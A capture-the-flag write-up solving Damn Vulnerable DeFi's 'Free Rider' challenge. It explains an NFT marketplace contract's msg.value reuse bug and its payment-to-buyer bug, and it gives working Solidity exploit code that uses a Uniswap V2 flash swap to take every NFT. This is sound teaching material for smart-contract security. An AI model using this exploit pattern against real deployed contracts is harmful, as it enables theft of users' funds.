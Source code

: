# Free Rider

## Summary

This article outlines a solution for Damn Vulnerable DeFi Challenge #10: *Free Rider*.
Two key vulnerabilities were exploited:
  * **Improper `msg.value` reuse in loops**, leading to faulty payment validation.
  * **Incorrect payment distribution**, where funds were mistakenly sent to the buyer instead of the seller.
The challenge also highlights the existence and potential use of Uniswap V2’s flash loan feature.

## Link to the challenge

[https://www.damnvulnerabledefi.xyz/challenges/free-rider/](https://www.damnvulnerabledefi.xyz/challenges/free-rider/)

## The Challenge

```
A new marketplace of Damn Valuable NFTs has been released! There’s been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A critical vulnerability has been reported, claiming that all tokens can be taken. Yet the developers don’t know how to save them!

They’re offering a bounty of 45 ETH for whoever is willing to take the NFTs out and send them their way. The recovery process is managed by a dedicated smart contract.

You’ve agreed to help. Although, you only have 0.1 ETH in balance. The devs just won’t reply to your messages asking for more.

If only you could get free ETH, at least for an instant.
```

## Vulnerability Survey

### Improper `msg.value` Reuse in Loops

Although the `buyMany()` function is protected against reentrancy, the `_buyOne()` function reuses `msg.value` without updating it on each iteration. This causes a flaw where the same `msg.value` is applied across multiple iterations.

Let’s illustrate this with a simple table:

| id  | priceToPay | msg.value | sold? | commentary                              |
|-----|------------|-----------|-------|-----------------------------------------|
| 0   | 15 ETH     | 15 ETH    | yes   | OK                                      |
| 1   | 15 ETH     | 15 ETH    | yes   | Wait! Why? You should have discounted it before |
| 2   | 15 ETH     | 15 ETH    | yes   | ...                                     |


This behavior occurs due to the following code:

```solidity
function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
    for (uint256 i = 0; i < tokenIds.length; ++i) {
        unchecked {
            _buyOne(tokenIds[i]);
        }
    }
}

function _buyOne(uint256 tokenId) private {
    uint256 priceToPay = offers[tokenId];
    if (priceToPay == 0) {
        revert TokenNotOffered(tokenId);
    }

    if (msg.value < priceToPay) {
        revert InsufficientPayment();
    }

    --offersCount;

    // transfer from seller to buyer
    DamnValuableNFT _token = token; // cache for gas savings
    _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

    // pay seller using cached token
    payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

    emit NFTBought(msg.sender, tokenId, priceToPay);
}
```

### Incorrect Payment Distribution

To add to the contract's issues, let’s examine this snippet from `_buyOne()`:

```solidity
_token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

// pay seller using cached token
payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```

In this case, the NFT is transferred to the buyer first, making them the owner of the token. The next line then sends the payment to the owner, which is now the buyer, allowing them to receive the funds instead of the seller.

## Solution

### Issue a Flash Loan

To execute the attack, we need at least the price of one NFT (we only have 0.1 ETH!). Flash swaps are a built-in feature of Uniswap V2 [Reference](https://docs.uniswap.org/contracts/v2/reference/smart-contracts/pair#swap-1).

For regular swaps, `data.length` must be 0. However, if `data.length > 0`, the `uniswapV2Call()` function is invoked, passing the `data` parameter back to the caller.

Here’s the relevant code to initiate the swap:

```solidity
function test_freeRider() public checkSolvedByPlayer {
    uniswapPair.swap(
        NFT_PRICE,
        0,
        address(this),
        abi.encode(0)
    );
}
```

The `onERC721Received()` function also needs to be implemented as shown below:

```solidity
function onERC721Received(address, address, uint256, bytes calldata)
    external pure returns (bytes4) {
    return IERC721Receiver.onERC721Received.selector;
}
```

### Exploit `buyMany()`

The `buyMany()` function iterates over the provided IDs and calls `_buyOne()` for each NFT. However, because `msg.value` is reused across iterations, an attacker can use the value of the most expensive item to bypass validation and acquire all requested items in a single transaction.

The rest of the attack involves cleanup steps: sending the NFTs to the `RecoveryManager` contract, repaying the flash loan (including minting WETH to cover the fee), and transferring all collected ETH to the `player` account.

Here’s the full exploit code:

```solidity
function uniswapV2Call(address, uint256 amount, uint256, bytes calldata) external {
    uint256[] memory ids = new uint256[](AMOUNT_OF_NFTS);
    for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
        ids[i] = i;
    }
    marketplace.buyMany{value: NFT_PRICE}(ids);

    // Recovery Manager interaction
    bytes memory data = abi.encode(address(this));
    for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
        nft.safeTransferFrom(address(this), address(recoveryManager), i, data);
    }

    // Repay the flash loan
    uint256 fee = ((amount * 3) / 997) + 1;
    weth.deposit{value: fee}();
    uint256 amountToRepay = amount + fee;
    weth.transfer(address(uniswapPair), amountToRepay);

    // Send the bounty to the player
    payable(player).transfer(BOUNTY);
}
```
